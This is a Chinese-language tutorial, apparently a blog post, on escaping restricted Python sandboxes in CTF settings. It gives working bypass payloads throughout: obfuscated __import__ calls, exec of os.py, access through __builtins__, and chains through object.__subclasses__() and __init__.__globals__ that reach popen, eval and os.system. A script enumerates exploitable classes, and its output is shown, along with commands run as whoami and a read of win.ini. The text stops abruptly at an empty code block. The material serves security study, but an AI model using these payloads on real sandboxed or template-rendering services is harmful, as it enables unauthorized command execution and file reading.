## 沙箱逃逸概述

https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E6%A6%82%E8%BF%B0

沙箱逃逸就是在在一个严格限制的python环境中，通过绕过限制和过滤达到执行更高权限，甚至getshell的过程。

既然是想getshell，或者说是执行命令就需要一个可执行命令的包。可直接执行命令的模块有

```none
osptysubprocessplarformcommands
```

有些时候，比如CTF，我们并不需要去执行命令，而是去读取目录下的flag文件即可，也就是说需要文件读取的模块来执行，常用的文件读取模块：

```none
fileopencodecsfileinput
```

不过其中file只在python2中执行，左2右3。



## 函数导入限制和绕过

### import

一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。

```none
import re,syspattern  = re.compile('import\s+(os|subprocess)')match = re.search(pattern,sys.args[1])if match:    print "forbidden module import detected"    raise Exception
```

这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如

```none
__import__importlib
```

还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用

```none
>>> import base64>>> base64.b64encode("os")'b3M='>>> flag = __import__(base64.b64decode('b3M='))>>> flag.system('whoami')misaki\user>>> import importlib>>> flag = importlib.import_module('b3M='.decode('base64'))>>> flag.system('whoami')misaki\user
```

或者使用字符串拼接的方式

```none
>>> __import__('o'+'s').system('who'+'ami')
```

字符串f翻转截取

```none
>>> __import__('so'[::-1]).system('whoami')misaki\user>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])misaki\user
```

再万一，他是这么禁止的

```none
import re,syspattern  = re.compile('import')match = re.search(pattern,sys.args[1])if match:    print "forbidden module import detected"    raise Exception
```

这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。

使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile

```none
>>> execfile('/usr/lib/python2.7/os.py')  #Linux系统下默认路径>>> system('whoami')misaki
```

python3可以利用读取文件，配合exec来执行

```none
>>> f = open(r'/usr/lib/python3.6/os.py','r')>>> exec(f.read())>>> system('whoami')misaki#不可以执行利用exec打开读取，exec需要执行的是其中的内容，直接打开的时候exec执行的就是读取文件操作exec("open('/usr/lib/python3.6/os.py','r').read()")
```

使用with open的形式

```none
>>> with open('/usr/lib/python3.6/os.py','r') as f:...     exec(f.read())...>>> system('whoami')misaki
```

或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。

```none
>>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')misaki\user
```

这里exec不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。

### _*builtins*_

__builtins__即时引用，在程序还为执行代码的时候就已经加载进来了。此模块并不需要导入，可以在任何模块中执行引用。比如在python2中



在python3中



所以我们通过dict属性来调用这些函数，例如如下调用exec来执行其中的python语句。

```none
>>> __builtins__.__dict__['exec']("print('ok')")ok
```

通过内建函数来导入包

```none
>>> __builtins__.__dict__['__import__']('os').system('whoami')misaki\user
```

万一跟上面一样，禁用了import，当然还可以使用拼接的方式

```none
>>> __builtins__.__dict__['__imp'+'ort__']('os').system('whoami')misaki\user
```

如果在__builtins__中，部分需要引用的函数被删除。不能直接用dict属性来调用，可以使用reload来重新加载

```none
reload(__builtin__)
```

如果仔细看上面的图片就可以看到，在python2中reload也是__builtin__的内建函数。如果此函数被删除在python2中也不可以直接引用了。python3中reload不再是内建函数，3.4之前是imp模块下的函数，而之后是importlib模块下的函数。

所以可以直接利用imp模块来导入，python2也可以利用。

```none
>>> import imp>>> imp.reload(__builtins__)<module '__builtin__' (built-in)>
```

在所上的导入模块中，系统的包都在一个默认路径下，被sys的modules存储记录。如果把其中的os模块删除就不能再去加载os模块了，这时候需要手动把os重新加载进去。一般尝试默认路径，或者sys查看存储路径

```none
>>> import sys>>> sys.modules['os']='/usr/lib/python3.6/os.py'>>> import os>>>
```

## 魔法函数

python沙箱逃逸还是离不开继承关系和子父类关系，在查看和使用类的继承，魔法函数起到了不可比拟的作用。

先看看几个常用的魔法函数

```none
__class__返回调用的类型class A():	pass	a = A()print(a.__class__)  #<class '__main__.A'>
__mro__查看类继承的所有父类，直到objectclass A:	passclass B(A):	passclass C(A):	passclass D(B, C):	passprint(D.__mro__) #(<class '__main__.D'>, <class '__main__.B'>, <class '__main__.C'>, <class '__main__.A'>, <class 'object'>)
__subclasses__获取类的所有子类class A(object):    passclass B(A):    passclass C(A):    pass    print(A.__subclasses__()) #[<class '__main__.B'>, <class '__main__.C'>]
__bases__返回所有直接父类组成的元组class A(object):	passclass B(A):	pass	print(B.__bases__)  #(<class '__main__.A'>,)  不返回object类
__init__类实例创建之后调用, 对当前对象的实例的一些初始化class A:	def __init__(self):        print('ok')         a = A()  # 输出ok
__globals__能够返回函数所在模块命名空间的所有变量class A(object):	def __init__(self, a, b):		self.a = a		self.b = ba.__init__.__globals__{'A': <class '__main__.A'>, 'a': <__main__.A object at 0x0000000001692390>, 'importlib': <module 'importlib' from 'D:\anaconda\lib\importlib\__init__.pyc'>, '__builtins__': <module '__builtin__' (built-in)>, 'pattern': <_sre.SRE_Pattern object at 0x0000000001695030>, 'base64': <module 'base64' from 'D:\anaconda\lib\base64.pyc'>, 'sys': <module 'sys' (built-in)>, 'flag': <module 'os' from 'D:\anaconda\lib\os.pyc'>, '__package__': None, 'os': <module 'os' from 'D:\anaconda\lib\os.pyc'>, '__doc__': None, 'match': <_sre.SRE_Match object at 0x00000000039A9B28>}
__getattribute__当类被调用的时候，无条件进入此函数。__getattr__对象中不存在的属性时调用class A:	def __init__(self):        self.name = "Bob"	def __getattribute__(self,item):		print("ok")a = A()  a.name   #ok, 这时候不管调用什么属性都会返回ok，相当于拦截了属性调用。	def __getattr__(self):		print('getattr')a.age   #getattr  调用不存在的属性会执行，相当于处理了AttributeError。
```

### 类继承使用

尝试利用继承关系来找到object类

```none
"".__class__.__bases__   #(<class 'object'>,)
```

前面不仅可以使用双引号，还可以利用列表或者字典类型，区别在查找类型的时候在不同的基础上查找，返回都是元组。

```none
[].__class__.__bases__{}.__class__.__bases__
```

在object类下去查找所有的子类，然后去查找可利用类，__bases__返回是元组，使用下标获得object类。

```none
"".__class__.__bases__[0].__subclasses__()
```



找到需要使用的类，其中有可以使用的类，在python3中使用

```none
<class 'os._wrap_close'>,<class 'warnings.WarningMessage'>
```

调用他们

```none
>>> "".__class__.__bases__[0].__subclasses__()[128]<class 'os._wrap_close'>>>> "".__class__.__bases__[0].__subclasses__()[177]<class 'warnings.WarningMessage'>
```

如果子类过多，不好查找是第几个下标，可以使用如下来标记

```none
for i in enumerate("".__class__.__bases__[0].__subclasses__()): 	print i
```



先来读取一下文件，C盘下的win.ini文件

```none
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__
```



从中查找是否有关于文件读取的方法，比如open，file函数。在最后找到一个popen函数。

```none
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']("C:\\windows\\win.ini").read()#如果这里会报错添加__builtins__"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.__builtins__['popen']("C:\\windows\\win.ini").read()
```

如果想直接在终端显示出来

```none
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']("type C:\\windows\\win.ini").read()
```



在python2中可以使用如下形式读取文件的第一行，在python2中前面是否字符串还是元组或者字典对后面类的查找有不一样的结果。

```none
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].getline("C:\\windows\\win.ini",1)
```

执行命令

```none
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].os.system('whoami')misaki\user
```

但是python2如果使用字符串的形式，会报如下错误，因为`__bases__`获取的并不是object类

```none
>>> "".__class__.__bases__[0].__subclasses__()[59]Traceback (most recent call last):  File "<stdin>", line 1, in <module>IndexError: list index out of range
```

只需要再去获得一次即可

```none
>>> "".__class__.__bases__[0].__bases__[0].__subclasses__()[59]<class 'warnings.WarningMessage'>
```

## 特殊函数查找

### python3

在GitHub的python页面上把自带函数全部获取目前的3.8的模块(202)

```none
asynciocollectionsconcurrentctypescursesdbmdistutilsemailencodings......warnings.pywave.pyweakref.pywebbrowser.pyxdrlib.pyzipapp.pyzipfile.pyzipimport.py
```

将这么模块进行筛选，规则这些模块哪些有调用上面提到的模块，或者文件读取等方法。

```none
# coding=UTF-8import codecsfrom collections import defaultdictwith codecs.open('python.txt', 'r', encoding='UTF-8') as f:    modules = f.readlines()modules = [m.strip().replace('.py', '') for m in modules]target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys', 'commands']target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open', 'codecs']all_targets = target_modules + target_functionsresults = defaultdict(list)for m in modules:    try:        module = __import__(m)    except Exception as e:        # print('ERROR:', m)        pass    for t in all_targets:        if t in module.__dict__:            results[m.encode()].append(t)print("可利用模块数量为:"+str(len(results)))for k, v in results.items():    print(k, v)
```

筛选完成后有python3两百个模块可能可以利用，然后再利用脚本进一步筛选

```none
find_modules = {    }target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys']target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open']all_targets = list(set(list(find_modules.keys()) + target_modules + target_functions))all_modules = list(set(list(find_modules.keys()) + target_modules))subclasses = ().__class__.__bases__[0].__subclasses__()sub_name = [s.__name__ for s in subclasses]# 第一种遍历,如:().__class__.__bases__[0].__subclasses__()[40]('./test.py').read()print('----------1-----------')for i, s in enumerate(sub_name):    for f in all_targets:        if f == s:            if f in target_functions:                print(i, f)            elif f in all_modules:                target = find_modules[f]                sub_dict = subclasses[i].__dict__                for t in target:                    if t in sub_dict:                        print(i, f, target)print('----------2-----------')# 第二种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')for i, sub in enumerate(subclasses):    try:        more = sub.__init__.__globals__        for m in all_targets:            if m in more:                print(i, sub, m, find_modules.get(m))    except Exception as e:        passprint('----------3-----------')# 第三种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").system("ls")')for i, sub in enumerate(subclasses):    try:        more = sub.__init__.__globals__.values()        for j, v in enumerate(more):            for f in all_targets:                try:                    if f in v:                        if f in target_functions:                            print(i, j, sub, f)                        elif f in all_modules:                            target = find_modules.get(f)                            sub_dict = v[f].__dict__                            for t in target:                                if t in sub_dict:                                    print(i, j, sub, f, target)                except Exception as e:                    pass    except Exception as e:        passprint('----------4-----------')# 第四种遍历:如:().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")# <class 'warnings.catch_warnings'>类很特殊，在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__，不具有通用性，本质上跟第一种方法类似for i, sub in enumerate(subclasses):    try:        more = sub()._module.__builtins__        for f in all_targets:            if f in more:                print(i, f)    except Exception as e:        pass
----------2-----------75 <class '_frozen_importlib._ModuleLock'> __builtins__ None75 <class '_frozen_importlib._ModuleLock'> __import__ None75 <class '_frozen_importlib._ModuleLock'> sys None76 <class '_frozen_importlib._DummyModuleLock'> __builtins__ None76 <class '_frozen_importlib._DummyModuleLock'> __import__ None76 <class '_frozen_importlib._DummyModuleLock'> sys None77 <class '_frozen_importlib._ModuleLockManager'> __builtins__ None77 <class '_frozen_importlib._ModuleLockManager'> __import__ None77 <class '_frozen_importlib._ModuleLockManager'> sys None78 <class '_frozen_importlib._installed_safely'> __builtins__ None78 <class '_frozen_importlib._installed_safely'> __import__ None78 <class '_frozen_importlib._installed_safely'> sys None79 <class '_frozen_importlib.ModuleSpec'> __builtins__ None79 <class '_frozen_importlib.ModuleSpec'> __import__ None79 <class '_frozen_importlib.ModuleSpec'> sys None91 <class '_frozen_importlib_external.FileLoader'> __builtins__ None91 <class '_frozen_importlib_external.FileLoader'> sys None92 <class '_frozen_importlib_external._NamespacePath'> __builtins__ None92 <class '_frozen_importlib_external._NamespacePath'> sys None93 <class '_frozen_importlib_external._NamespaceLoader'> __builtins__ None93 <class '_frozen_importlib_external._NamespaceLoader'> sys None95 <class '_frozen_importlib_external.FileFinder'> __builtins__ None95 <class '_frozen_importlib_external.FileFinder'> sys None103 <class 'codecs.IncrementalEncoder'> __builtins__ None103 <class 'codecs.IncrementalEncoder'> sys None103 <class 'codecs.IncrementalEncoder'> open None104 <class 'codecs.IncrementalDecoder'> __builtins__ None104 <class 'codecs.IncrementalDecoder'> sys None104 <class 'codecs.IncrementalDecoder'> open None105 <class 'codecs.StreamReaderWriter'> __builtins__ None105 <class 'codecs.StreamReaderWriter'> sys None105 <class 'codecs.StreamReaderWriter'> open None106 <class 'codecs.StreamRecoder'> __builtins__ None106 <class 'codecs.StreamRecoder'> sys None106 <class 'codecs.StreamRecoder'> open None128 <class 'os._wrap_close'> __builtins__ None128 <class 'os._wrap_close'> sys None128 <class 'os._wrap_close'> open None129 <class '_sitebuiltins.Quitter'> __builtins__ None129 <class '_sitebuiltins.Quitter'> sys None130 <class '_sitebuiltins._Printer'> __builtins__ None130 <class '_sitebuiltins._Printer'> sys None137 <class 'types.DynamicClassAttribute'> __builtins__ None138 <class 'types._GeneratorWrapper'> __builtins__ None139 <class 'warnings.WarningMessage'> __builtins__ None139 <class 'warnings.WarningMessage'> sys None140 <class 'warnings.catch_warnings'> __builtins__ None140 <class 'warnings.catch_warnings'> sys None167 <class 'reprlib.Repr'> __builtins__ None174 <class 'functools.partialmethod'> __builtins__ None176 <class 'contextlib._GeneratorContextManagerBase'> __builtins__ None176 <class 'contextlib._GeneratorContextManagerBase'> sys None177 <class 'contextlib._BaseExitStack'> __builtins__ None177 <class 'contextlib._BaseExitStack'> sys None----------3-----------75 5 <class '_frozen_importlib._ModuleLock'> exec75 5 <class '_frozen_importlib._ModuleLock'> eval75 5 <class '_frozen_importlib._ModuleLock'> compile75 5 <class '_frozen_importlib._ModuleLock'> __import__75 5 <class '_frozen_importlib._ModuleLock'> open76 5 <class '_frozen_importlib._DummyModuleLock'> exec76 5 <class '_frozen_importlib._DummyModuleLock'> eval76 5 <class '_frozen_importlib._DummyModuleLock'> compile76 5 <class '_frozen_importlib._DummyModuleLock'> __import__76 5 <class '_frozen_importlib._DummyModuleLock'> open77 5 <class '_frozen_importlib._ModuleLockManager'> exec77 5 <class '_frozen_importlib._ModuleLockManager'> eval77 5 <class '_frozen_importlib._ModuleLockManager'> compile77 5 <class '_frozen_importlib._ModuleLockManager'> __import__77 5 <class '_frozen_importlib._ModuleLockManager'> open78 5 <class '_frozen_importlib._installed_safely'> exec78 5 <class '_frozen_importlib._installed_safely'> eval78 5 <class '_frozen_importlib._installed_safely'> compile78 5 <class '_frozen_importlib._installed_safely'> __import__78 5 <class '_frozen_importlib._installed_safely'> open79 5 <class '_frozen_importlib.ModuleSpec'> exec79 5 <class '_frozen_importlib.ModuleSpec'> eval79 5 <class '_frozen_importlib.ModuleSpec'> compile79 5 <class '_frozen_importlib.ModuleSpec'> __import__79 5 <class '_frozen_importlib.ModuleSpec'> open91 5 <class '_frozen_importlib_external.FileLoader'> exec91 5 <class '_frozen_importlib_external.FileLoader'> eval91 5 <class '_frozen_importlib_external.FileLoader'> compile91 5 <class '_frozen_importlib_external.FileLoader'> __import__91 5 <class '_frozen_importlib_external.FileLoader'> open92 5 <class '_frozen_importlib_external._NamespacePath'> exec92 5 <class '_frozen_importlib_external._NamespacePath'> eval92 5 <class '_frozen_importlib_external._NamespacePath'> compile92 5 <class '_frozen_importlib_external._NamespacePath'> __import__92 5 <class '_frozen_importlib_external._NamespacePath'> open93 5 <class '_frozen_importlib_external._NamespaceLoader'> exec93 5 <class '_frozen_importlib_external._NamespaceLoader'> eval93 5 <class '_frozen_importlib_external._NamespaceLoader'> compile93 5 <class '_frozen_importlib_external._NamespaceLoader'> __import__93 5 <class '_frozen_importlib_external._NamespaceLoader'> open95 5 <class '_frozen_importlib_external.FileFinder'> exec95 5 <class '_frozen_importlib_external.FileFinder'> eval95 5 <class '_frozen_importlib_external.FileFinder'> compile95 5 <class '_frozen_importlib_external.FileFinder'> __import__95 5 <class '_frozen_importlib_external.FileFinder'> open103 7 <class 'codecs.IncrementalEncoder'> exec103 7 <class 'codecs.IncrementalEncoder'> eval103 7 <class 'codecs.IncrementalEncoder'> compile103 7 <class 'codecs.IncrementalEncoder'> __import__103 7 <class 'codecs.IncrementalEncoder'> open103 56 <class 'codecs.IncrementalEncoder'> open104 7 <class 'codecs.IncrementalDecoder'> exec104 7 <class 'codecs.IncrementalDecoder'> eval104 7 <class 'codecs.IncrementalDecoder'> compile104 7 <class 'codecs.IncrementalDecoder'> __import__104 7 <class 'codecs.IncrementalDecoder'> open104 56 <class 'codecs.IncrementalDecoder'> open105 7 <class 'codecs.StreamReaderWriter'> exec105 7 <class 'codecs.StreamReaderWriter'> eval105 7 <class 'codecs.StreamReaderWriter'> compile105 7 <class 'codecs.StreamReaderWriter'> __import__105 7 <class 'codecs.StreamReaderWriter'> open105 56 <class 'codecs.StreamReaderWriter'> open106 7 <class 'codecs.StreamRecoder'> exec106 7 <class 'codecs.StreamRecoder'> eval106 7 <class 'codecs.StreamRecoder'> compile106 7 <class 'codecs.StreamRecoder'> __import__106 7 <class 'codecs.StreamRecoder'> open106 56 <class 'codecs.StreamRecoder'> open128 1 <class 'os._wrap_close'> exec128 1 <class 'os._wrap_close'> file128 1 <class 'os._wrap_close'> open128 7 <class 'os._wrap_close'> exec128 7 <class 'os._wrap_close'> eval128 7 <class 'os._wrap_close'> compile128 7 <class 'os._wrap_close'> __import__128 7 <class 'os._wrap_close'> open128 11 <class 'os._wrap_close'> open129 7 <class '_sitebuiltins.Quitter'> exec129 7 <class '_sitebuiltins.Quitter'> eval129 7 <class '_sitebuiltins.Quitter'> compile129 7 <class '_sitebuiltins.Quitter'> __import__129 7 <class '_sitebuiltins.Quitter'> open130 7 <class '_sitebuiltins._Printer'> exec130 7 <class '_sitebuiltins._Printer'> eval130 7 <class '_sitebuiltins._Printer'> compile130 7 <class '_sitebuiltins._Printer'> __import__130 7 <class '_sitebuiltins._Printer'> open137 7 <class 'types.DynamicClassAttribute'> exec137 7 <class 'types.DynamicClassAttribute'> eval137 7 <class 'types.DynamicClassAttribute'> compile137 7 <class 'types.DynamicClassAttribute'> __import__137 7 <class 'types.DynamicClassAttribute'> open138 7 <class 'types._GeneratorWrapper'> exec138 7 <class 'types._GeneratorWrapper'> eval138 7 <class 'types._GeneratorWrapper'> compile138 7 <class 'types._GeneratorWrapper'> __import__138 7 <class 'types._GeneratorWrapper'> open139 7 <class 'warnings.WarningMessage'> exec139 7 <class 'warnings.WarningMessage'> eval139 7 <class 'warnings.WarningMessage'> compile139 7 <class 'warnings.WarningMessage'> __import__139 7 <class 'warnings.WarningMessage'> open140 7 <class 'warnings.catch_warnings'> exec140 7 <class 'warnings.catch_warnings'> eval140 7 <class 'warnings.catch_warnings'> compile140 7 <class 'warnings.catch_warnings'> __import__140 7 <class 'warnings.catch_warnings'> open167 7 <class 'reprlib.Repr'> exec167 7 <class 'reprlib.Repr'> eval167 7 <class 'reprlib.Repr'> compile167 7 <class 'reprlib.Repr'> __import__167 7 <class 'reprlib.Repr'> open174 7 <class 'functools.partialmethod'> exec174 7 <class 'functools.partialmethod'> eval174 7 <class 'functools.partialmethod'> compile174 7 <class 'functools.partialmethod'> __import__174 7 <class 'functools.partialmethod'> open176 7 <class 'contextlib._GeneratorContextManagerBase'> exec176 7 <class 'contextlib._GeneratorContextManagerBase'> eval176 7 <class 'contextlib._GeneratorContextManagerBase'> compile176 7 <class 'contextlib._GeneratorContextManagerBase'> __import__176 7 <class 'contextlib._GeneratorContextManagerBase'> open177 7 <class 'contextlib._BaseExitStack'> exec177 7 <class 'contextlib._BaseExitStack'> eval177 7 <class 'contextlib._BaseExitStack'> compile177 7 <class 'contextlib._BaseExitStack'> __import__177 7 <class 'contextlib._BaseExitStack'> open----------4-----------140 exec140 eval140 compile140 __import__140 open
```

筛选出来的模块还是很多，每个分块中，不用的部分代表利用不同的方式，为了更方便的利用进一步筛选具有更直接利用方式的类，关注再命令执行和读写上

```none
----------2-----------                                      103 <class 'codecs.IncrementalEncoder'> open None           104 <class 'codecs.IncrementalDecoder'> open None           105 <class 'codecs.StreamReaderWriter'> open None           106 <class 'codecs.StreamRecoder'> open None                128 <class 'os._wrap_close'> open None                      ----------3-----------                                      75 5 <class '_frozen_importlib._ModuleLock'> open           75 5 <class '_frozen_importlib._ModuleLock'> exec           76 5 <class '_frozen_importlib._DummyModuleLock'> open      76 5 <class '_frozen_importlib._DummyModuleLock'> exec      77 5 <class '_frozen_importlib._ModuleLockManager'> open    77 5 <class '_frozen_importlib._ModuleLockManager'> exec    78 5 <class '_frozen_importlib._installed_safely'> open     78 5 <class '_frozen_importlib._installed_safely'> exec     79 5 <class '_frozen_importlib.ModuleSpec'> open            79 5 <class '_frozen_importlib.ModuleSpec'> exec            91 5 <class '_frozen_importlib_external.FileLoader'> open   91 5 <class '_frozen_importlib_external.FileLoader'> exec   92 5 <class '_frozen_importlib_external._NamespacePath'> open92 5 <class '_frozen_importlib_external._NamespacePath'> exec93 5 <class '_frozen_importlib_external._NamespaceLoader'> open93 5 <class '_frozen_importlib_external._NamespaceLoader'> exec95 5 <class '_frozen_importlib_external.FileFinder'> open   95 5 <class '_frozen_importlib_external.FileFinder'> exec   103 7 <class 'codecs.IncrementalEncoder'> open              103 7 <class 'codecs.IncrementalEncoder'> exec              103 56 <class 'codecs.IncrementalEncoder'> open             104 7 <class 'codecs.IncrementalDecoder'> open              104 7 <class 'codecs.IncrementalDecoder'> exec              104 56 <class 'codecs.IncrementalDecoder'> open             105 7 <class 'codecs.StreamReaderWriter'> open              105 7 <class 'codecs.StreamReaderWriter'> exec              105 56 <class 'codecs.StreamReaderWriter'> open             106 7 <class 'codecs.StreamRecoder'> open                   106 7 <class 'codecs.StreamRecoder'> exec                   106 56 <class 'codecs.StreamRecoder'> open                  128 1 <class 'os._wrap_close'> open                         128 1 <class 'os._wrap_close'> exec                         128 7 <class 'os._wrap_close'> open                         128 7 <class 'os._wrap_close'> exec                         128 11 <class 'os._wrap_close'> open                        129 7 <class '_sitebuiltins.Quitter'> open                  129 7 <class '_sitebuiltins.Quitter'> exec                  130 7 <class '_sitebuiltins._Printer'> open                 130 7 <class '_sitebuiltins._Printer'> exec                 137 7 <class 'types.DynamicClassAttribute'> open            137 7 <class 'types.DynamicClassAttribute'> exec            138 7 <class 'types._GeneratorWrapper'> open                138 7 <class 'types._GeneratorWrapper'> exec                139 7 <class 'warnings.WarningMessage'> open                139 7 <class 'warnings.WarningMessage'> exec                140 7 <class 'warnings.catch_warnings'> open                140 7 <class 'warnings.catch_warnings'> exec                167 7 <class 'reprlib.Repr'> open                           167 7 <class 'reprlib.Repr'> exec                           174 7 <class 'functools.partialmethod'> open                174 7 <class 'functools.partialmethod'> exec                176 7 <class 'contextlib._GeneratorContextManagerBase'> open176 7 <class 'contextlib._GeneratorContextManagerBase'> exec177 7 <class 'contextlib._BaseExitStack'> open              177 7 <class 'contextlib._BaseExitStack'> exec              ----------4-----------                                      140 open                                                    140 exec                                                    
```

既然筛选出来，那么选其中一个利用来读取文件：

```none
>>> "".__class__.__bases__[0].__subclasses__()[103]<class 'codecs.IncrementalEncoder'>
```

完整执行

```none
>>> "".__class__.__bases__[0].__subclasses__()[103].__init__.__globals__['open']("C:\\windows\\win.ini").read()'; for 16-bit app support\n[fonts]\n[extensions]\n[mci extensions]\n[files]\n[Mail]\nMAPI=1\nCMCDLLNAME32=mapi32.dll\nCMC=1\nMAPIX=1\nMAPIXVER=1.0.0.1\nOLEMessaging=1\n[xianshuabao]\nclient_uuid={xxx}\n'
```

执行命令，此处如果使用原作者给的第三种利用代码在python3中会报错，python3中对于`dict.values`不再返回列表，而是返回view，不可索引的对象。

```none
>>> "".__class__.__bases__[0].__subclasses__()[103].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')misaki\user
```

### python2

python2.7的模块(252)

```none
bsddbcompilerctypescurses......webbrowser.pywhichdb.pywsgiref.egg-infoxdrlib.pyxmllib.pyxmlrpclib.pyzipfile.py
```

同样利用原代码进行筛选

```none
